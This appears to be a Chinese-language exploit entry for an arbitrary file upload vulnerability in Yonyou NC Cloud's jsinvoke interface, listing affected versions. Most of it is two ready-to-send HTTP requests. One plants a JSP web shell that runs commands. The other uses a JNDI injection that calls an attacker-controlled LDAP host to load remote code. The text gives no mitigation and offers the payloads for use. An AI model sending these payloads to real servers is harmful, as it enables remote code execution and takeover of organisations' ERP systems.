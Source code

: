 **漏洞描述：**

用友 NC Cloud jsinvoke 接口存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件至服务器中，获取系统权限。

**影响版本：**

用友NC63、NC633、NC65NC Cloud1903、NC Cloud1909NC Cloud2005、NC Cloud2105、NC Cloud2111

**Payload：**

```
POST /uapjs/jsinvoke/?action=invoke
Content-Type: application/json

{
    "serviceName":"nc.itf.iufo.IBaseSPService",
    "methodName":"saveXStreamConfig",
    "parameterTypes":[
        "java.lang.Object",
        "java.lang.String"
    ],
    "parameters":[
        "${param.getClass().forName(param.error).newInstance().eval(param.cmd)}",
        "webapps/nc_web/407.jsp"
    ]
}
POST /uapjs/jsinvoke/?action=invoke HTTP/1.1
Host:host
Connection: Keep-Alive
Content-Length: 253
Content-Type: application/x-www-form-urlencoded

{"serviceName":"nc.itf.iufo.IBaseSPService","methodName":"saveXStreamConfig","parameterTypes":["java.lang.Object","java.lang.String"],"parameters":["${''.getClass().forName('javax.naming.InitialContext').newInstance().lookup('ldap://VPSip:1389/TomcatBypass/TomcatEcho')}","webapps/nc_web/301.jsp"]}
```

---
